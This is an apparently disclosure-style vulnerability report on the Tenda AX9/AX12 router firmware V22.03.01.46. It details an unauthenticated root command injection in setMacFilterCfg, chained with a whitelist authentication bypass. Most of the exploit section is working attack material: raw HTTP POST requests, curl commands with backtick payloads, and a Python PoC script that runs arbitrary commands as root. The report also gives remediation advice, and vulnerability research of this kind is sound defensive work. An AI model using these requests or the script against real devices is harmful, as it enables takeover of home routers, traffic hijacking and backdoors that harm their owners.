




# Tenda AX9 Smart Router

- Vendor: Tenda
- Product: AX9
- Model: AX9 V1.0 (the same firmware is also used for AX12 V1.0)
- Firmware version: V22.03.01.46 (`US_AX9V1.0in_V22.03.01.46_cn_TDC01.bin`)
- Vulnerability type: Unauthenticated command injection (authentication bypass + second-order command injection)

# Description

The Web management backend of the Tenda AX9 smart router (firmware version V22.03.01.46) contains a **second-order command injection** in the handling of `/goform/setMacFilterCfg`. The user-controllable `macFilterType` field is written into the configuration, and when a later request changes this value, the old value is concatenated into a shell command and executed via `system()`:

```
echo <old macFilterType> >/tmp/macfilter
```

Because the old value is concatenated without quoting, an attacker first injects a backtick-wrapped command `` `cmd` ``, then triggers the echo, and the backtick content is evaluated by the shell — thereby executing arbitrary commands with **root (uid=0)** privileges.

At the same time, the authentication layer has a **whitelist mis-match** (CVE-2023-47422): `R7WebsSecurityHandler` uses `strstr` for full-string substring matching, so any request appending `?img/main-logo.png` is treated as a static resource and **bypasses all authentication checks**; and with no active session, the request body is parsed as **plaintext**. Combined: **a LAN-side attacker can execute arbitrary commands as root with two plaintext HTTP POSTs and no credentials at all**.

# Impact

An attacker can execute arbitrary commands with **root** privileges without any credentials, fully controlling the device — including reading `/etc/shadow`, exporting a complete configuration backup, implanting a persistent backdoor, enabling telnet, establishing a reverse shell, and tampering with DNS/routing for traffic hijacking. The same codebase affects **AX9 V1.0 and AX12 V1.0** (the same V22.03.01.46 firmware line).

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the Web management backend binary `/usr/sbin/httpd` (**running as root**) and the configuration backend `/bin/td_serverd` (the two communicate via RPC on 127.0.0.1:10010).

**Taint source** — `formSetMacFilterCfg` (`sub_42F69C` in httpd, handling `/goform/setMacFilterCfg`):

```c
v2 = sub_415C94(a1, "macFilterType", "");      // user input (new type)
tapi_get_mf_cfg(...);                           // read the stored old type into v17[2]
sub_42E3C0(v15, 3, v2);
tapi_set_mf_cfg(v15[0]);                        // new type written to td_serverd config via RPC
printf("old_type:%s new_type:%s\n", &v17[2], v2);
if ( strcmp(v2, &v17[2]) )                      // when new != old
    doSystemCmd("echo %s >/tmp/macfilter", &v17[2]); // ★ old value goes into the shell, unfiltered
```

**Storage point** — td_serverd `set_mf_cfg` (`sub_40ABDC`) stores the type with `strcpy` into `macfilter.macfilter.type`, **only limiting the length to <17 bytes**, without filtering backticks / `$()` / `;` etc. shell metacharacters.

**Taint sink** — `doSystemCmd` (in libsyschk.so), whose `os_cmd_injection_test` only blocks the string when it **simultaneously** contains both `liuguizhou` and `telnetd` (practically useless); it ultimately goes through `system()` → `/bin/sh -c`. Since httpd runs as root, the injected command executes with root privileges.

**Exploitation constraints (verified):**

| Constraint | Verification result |
|---|---|
| Field length | A type value (including backticks) with `strlen+1 >= 17` triggers td_serverd `__trap` (SIGTRAP crash); `id>/tmp/pwn` (12-char payload + 2 backticks = 14) succeeds |
| Injection syntax | Backticks `` `cmd` `` verified |
| Execution context | `uid=0(root) gid=0(root) groups=0(root)` |
| Output channel | No direct echo; redirect to a file and read it from the chroot filesystem |

## 2. Authentication Bypass (CVE-2023-47422)

- `R7WebsSecurityHandler` (sub_419618) whitelist uses `strstr(a5, "img/main-logo.png")` / `strstr(a5, "reasy-ui-1.0.3.js")` for **full-string substring matching**; any URL appending `?img/main-logo.png` is treated as a static resource and bypasses authentication.
- `/goform/stokCfg` and `/goform/getLoginInfo` are open without authentication.
- The request body's AES-CBC encryption (IV hard-coded as `EU5H62G9ICGRNI43`, key/sign derivable from the unauthenticated `stokCfg` endpoint) is not an authentication barrier; **and with no active session the body is parsed as plaintext**, requiring no login and no sign.

## 3. Proof of Concept (PoC)

> Environment: QEMU user-mode chroot emulation on an Ubuntu VM (httpd + td_serverd two-process full stack). The td_serverd `macfilter_enable` call (file offset `0xad98`) has been patched to NOP. `/etc/config/admin` has `userpass = md5("123456")` written to simulate a real device with a configured password.

### Step 1 — Write a malicious macFilterType (backtick-wrapped, ≤16 bytes)

```http
POST /goform/setMacFilterCfg?img/main-logo.png HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Connection: close

macFilterType=`id>/tmp/pwn`&deviceList=jdsfs\r10:10:10:10:10:10
```

curl equivalent (in `$'...'`, `\r` is a carriage return and the backticks are literal):

```bash
curl -X POST "http://127.0.0.1/goform/setMacFilterCfg?img/main-logo.png" \
     -d $'macFilterType=`id>/tmp/pwn`&deviceList=jdsfs\r10:10:10:10:10:10'
```



### Step 2 — Change the type back to black, triggering the echo of the old value to execute the backtick content

```bash
curl -X POST "http://127.0.0.1/goform/setMacFilterCfg?img/main-logo.png" \
     -d $'macFilterType=black&deviceList=jdsfs\r10:10:10:10:10:10'
```



### Step 3 — Retrieve the command output (core evidence)

```bash
cat /home/iotsec-zone/Desktop/firmware/ax9/_US_AX9V1.0in_V22.03.01.46_cn_TDC01.bin.extracted/squashfs-root/tmp/pwn
```

Observed output:

```
uid=0(root) gid=0(root) groups=0(root)
```



### Full exploitation — Reverse shell

The 16-byte limit is bypassed by building a script character by character with `printf "c">>1` (this verification landed `id`/`uname` directly; the full reverse-shell chain is the next step):

```python
#!/usr/bin/env python3
# Tenda AX9 V22.03.01.46 setMacFilterCfg unauthenticated command injection PoC
# Usage: python3 ax9_exp.py "id>/tmp/pwn"   single command (≤16 bytes incl. backticks)
import requests, time, sys
HOST = "http://127.0.0.1"    # for a real device use http://<device IP>
def post_mf(t):
    body = "macFilterType=%s&deviceList=jdsfs\r10:10:10:10:10:10" % t
    r = requests.post(HOST + "/goform/setMacFilterCfg?img/main-logo.png",
                      data=body.encode(), timeout=15)
    print("  [%s] -> %s" % (t, r.status_code))
    return r.status_code
def run16(cmd):
    post_mf("`%s`" % cmd)   # first request: write the backtick-wrapped command
    time.sleep(0.4)
    post_mf("black")        # second request: trigger echo of the old value, backtick content executes
if __name__ == "__main__":
    cmd = sys.argv[1] if len(sys.argv) > 1 else "id>/tmp/pwn"
    print("[*] inject: %s" % cmd)
    run16(cmd)
    print("[*] done — check .../squashfs-root/tmp/pwn")
```



## 4. Root Cause Summary

1. `formSetMacFilterCfg` concatenates the old configuration value into `doSystemCmd("echo %s >/tmp/macfilter")` **without filtering/quoting**;
2. td_serverd `set_mf_cfg` performs **zero sanitization** on the type field (length-only), so the backtick payload is stored verbatim into the configuration;
3. `doSystemCmd → system()` ultimately goes through `/bin/sh -c`, so the shell performs command substitution on the backticks in the old value;
4. `R7WebsSecurityHandler`'s `strstr` full-string substring whitelist (CVE-2023-47422) makes the whole chain **reachable without authentication**;
5. `httpd` runs as root, so the injected command executes with the highest privileges.

## 5. Remediation

- Apply strict allow-list validation to configuration fields such as `macFilterType` (only `black`/`white`/`disable`) before storage, and never concatenate configuration/user input into a shell command;
- Replace `system()` string concatenation with the `exec*` family (which does not go through a shell), or shell-escape every command argument;
- Change `R7WebsSecurityHandler`'s whitelist matching to exact prefix/suffix matching on the path portion (after removing the query string);
- Remove `doSystemCmd`'s injection blocklist (liuguizhou/telnetd) and switch to parameterized execution;
- Remove the `/goform/telnet` and `/goform/ate` debug endpoints from production firmware, and run the Web service with reduced privileges.
